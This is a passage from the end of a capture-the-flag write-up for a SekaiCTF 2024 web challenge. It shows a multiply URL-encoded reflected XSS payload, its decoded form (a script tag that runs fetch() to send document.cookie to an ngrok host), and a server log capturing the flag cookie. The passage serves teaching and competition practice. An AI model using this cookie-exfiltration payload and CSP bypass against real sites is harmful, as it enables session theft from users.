 ```
http://127.0.0.1:5000/%25%33%63%25%37%33%25%36%33%25%37%32%25%36%39%25%37%30%25%37%34%25%32%30%25%37%33%25%37%32%25%36%33%25%33%64%25%32%32%25%32%35%25%33%32%25%36%36%25%32%35%25%33%32%25%36%31%25%32%35%25%33%32%25%36%31%25%32%35%25%33%32%25%36%36%25%32%35%25%33%36%25%33%36%25%32%35%25%33%36%25%33%35%25%32%35%25%33%37%25%33%34%25%32%35%25%33%36%25%33%33%25%32%35%25%33%36%25%33%38%25%32%35%25%33%32%25%33%38%25%32%35%25%33%36%25%33%30%25%32%35%25%33%36%25%33%38%25%32%35%25%33%37%25%33%34%25%32%35%25%33%37%25%33%34%25%32%35%25%33%37%25%33%30%25%32%35%25%33%37%25%33%33%25%32%35%25%33%33%25%36%31%25%32%35%25%33%32%25%36%36%25%32%35%25%33%32%25%36%36%25%32%35%25%33%33%25%33%35%25%32%35%25%33%33%25%33%30%25%32%35%25%33%36%25%33%35%25%32%35%25%33%33%25%33%36%25%32%35%25%33%32%25%36%34%25%32%35%25%33%37%25%36%32%25%32%35%25%33%35%25%33%32%25%32%35%25%33%36%25%33%35%25%32%35%25%33%36%25%33%34%25%32%35%25%33%36%25%33%31%25%32%35%25%33%36%25%33%33%25%32%35%25%33%37%25%33%34%25%32%35%25%33%36%25%33%35%25%32%35%25%33%36%25%33%34%25%32%35%25%33%37%25%36%34%25%32%35%25%33%32%25%36%35%25%32%35%25%33%36%25%36%35%25%32%35%25%33%36%25%33%37%25%32%35%25%33%37%25%33%32%25%32%35%25%33%36%25%36%36%25%32%35%25%33%36%25%36%32%25%32%35%25%33%32%25%36%34%25%32%35%25%33%36%25%33%36%25%32%35%25%33%37%25%33%32%25%32%35%25%33%36%25%33%35%25%32%35%25%33%36%25%33%35%25%32%35%25%33%32%25%36%35%25%32%35%25%33%36%25%33%31%25%32%35%25%33%37%25%33%30%25%32%35%25%33%37%25%33%30%25%32%35%25%33%32%25%36%36%25%32%35%25%33%33%25%36%36%25%32%35%25%33%36%25%33%33%25%32%35%25%33%36%25%36%36%25%32%35%25%33%36%25%36%36%25%32%35%25%33%36%25%36%32%25%32%35%25%33%36%25%33%39%25%32%35%25%33%36%25%33%35%25%32%35%25%33%33%25%36%34%25%32%35%25%33%32%25%33%34%25%32%35%25%33%37%25%36%32%25%32%35%25%33%36%25%33%34%25%32%35%25%33%36%25%36%36%25%32%35%25%33%36%25%33%33%25%32%35%25%33%37%25%33%35%25%32%35%25%33%36%25%36%34%25%32%35%25%33%36%25%33%35%25%32%35%25%33%36%25%36%35%25%32%35%25%33%37%25%33%34%25%32%35%25%33%32%25%36%35%25%32%35%25%33%36%25%33%33%25%32%35%25%33%36%25%36%36%25%32%35%25%33%36%25%36%36%25%32%35%25%33%36%25%36%32%25%32%35%25%33%36%25%33%39%25%32%35%25%33%36%25%33%35%25%32%35%25%33%37%25%36%34%25%32%35%25%33%36%25%33%30%25%32%35%25%33%32%25%33%39%25%32%35%25%33%32%25%36%36%25%32%35%25%33%32%25%36%36%25%32%32%25%33%65%25%33%63%25%32%66%25%37%33%25%36%33%25%37%32%25%36%39%25%37%30%25%37%34%25%33%65
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/SekaiCTF-2024/images/Pasted%20image%2020240826153530.png)

URL decoded payload:

```html
<script src="/**/fetch(`https://50e6-{Redacted}.ngrok-free.app/?cookie=${document.cookie}`)//"></script>
```

HTTP server log:

```shell
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
127.0.0.1 - - [26/Aug/2024 15:42:05] "GET /?cookie=flag=SEKAI{w4rmUpwItHoUtTags} HTTP/1.1" 200 -
```

Nice! We got the flag!

- **Flag: `SEKAI{w4rmUpwItHoUtTags}`**

## Conclusion

What we've learned:

1. Reflected XSS and CSP bypass